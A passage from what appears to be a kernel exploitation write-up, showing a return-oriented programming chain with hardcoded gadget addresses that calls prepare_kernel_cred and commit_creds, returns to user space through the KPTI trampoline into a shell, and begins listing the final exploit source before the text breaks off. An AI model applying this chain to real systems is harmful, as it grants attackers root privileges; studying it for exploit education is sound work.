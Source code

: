 Now that we have translated the stack, we need to make the correct
chaining:

{% highlight c %}
const uint64_t prepare_kernel_cred = 0xffffffff810cc140;
const uint64_t commit_creds = 0xffffffff810cbdd0;
const uint64_t pop_rdi = 0xffffffff8104dec1;
const uint64_t xchg = 0xffffffff8110f940; // # xchg rax, rdi; or al, 0; pop rbp; ret;
const uint64_t iretq = 0xffffffff81039a1b;
const uint64_t pop_rsp = 0xffffffff81020360;
const uint64_t swapgs = 0xffffffff81c00a34 + 22;

uint64_t chain[] = {
    pop_rdi,
    0,
    prepare_kernel_cred,
    xchg,
    0,
    commit_creds,
    swapgs,
    0,
    0,
};
{% endhighlight %}

Since KASLR is off, all gadgets we find will work from launch to launch.
The chain completely coincides with what we wrote in our plan. The exit
to the user space will be through the KPTI trampoline.

Add our chain to the final payload:

{% highlight c %}
memcpy(&mem[3500], &chain, sizeof(chain));
save_state();

uint64_t *context = &mem[3500+sizeof(chain)];
context[0] = &drop_shell;
context[1] = user_cs;
context[2] = user_rflags;
context[3] = user_sp;
context[4] = user_ss;
context[5] = 10;

read(rop, s, 96);
{% endhighlight %}  

You may notice that a call to some function save_state () is a fairly
standard function when developing kernel exploits. It is necessary so
that we can correctly return from the kernel context to the user one.
This function allows us to save all the necessary registers that should
be on the stack at the time of returning from the kernel.

The final exploit.

{% highlight c %}
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <fcntl.h>
#include <signal.h>

uint64_t canary;

const uint64_t prepare_kernel_cred = 0xffffffff810cc140;
const uint64_t commit_creds = 0xffffffff810cbdd0;
const uint64_t pop_rdi = 0xffffffff8104dec1;